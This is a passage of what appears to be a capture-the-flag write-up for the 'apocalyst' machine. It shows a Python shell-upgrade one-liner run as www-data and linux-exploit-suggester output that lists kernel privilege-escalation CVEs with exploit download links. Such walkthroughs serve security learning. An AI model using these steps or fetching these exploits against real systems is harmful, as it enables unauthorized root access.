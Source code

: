 ```
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
```

I uploaded linux-exploit-suggester to the system to check for possible privilege escalation exploits.

```
www-data@apocalyst:/tmp$ ./linux-exploit-suggester.sh
./linux-exploit-suggester.sh

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Package list: from current OS

Possible Exploits:

[+] [CVE-2015–3290] espfix64_NMI

 Details: [http://www.openwall.com/lists/oss-security/2015/08/04/8](http://www.openwall.com/lists/oss-security/2015/08/04/8)
 Download URL: [https://www.exploit-db.com/download/37722](https://www.exploit-db.com/download/37722)

[+] [CVE-2016–0728] keyring

Details: [http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/](http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/)
Download URL: [https://www.exploit-db.com/download/40003](https://www.exploit-db.com/download/40003)
Comments: Exploit takes about ~30 minutes to run

[+] [CVE-2016–2384] usb-midi
Details: [https://xairy.github.io/blog/2016/cve-2016-2384](https://xairy.github.io/blog/2016/cve-2016-2384)
Tags: ubuntu=14.04,fedora=22
Download URL: [https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c](https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c)
Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [N/A] target_offset
Details: [https://www.exploit-db.com/exploits/40049/](https://www.exploit-db.com/exploits/40049/)
Tags: ubuntu=16.04(kernel:4.4.0–21)
Download URL: [https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip)
Comments: ip_tables.ko needs to be loaded

[+] [CVE-2016–4557] double-fdput()
Details: [https://bugs.chromium.org/p/project-zero/issues/detail?id=808](https://bugs.chromium.org/p/project-zero/issues/detail?id=808)
Tags: ubuntu=16.04(kernel:4.4.0–62)
Download URL: [https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552](https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552)
Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016–5195] dirtycow
Details: [https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)
Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
Download URL: [https://www.exploit-db.com/download/40611](https://www.exploit-db.com/download/40611)
```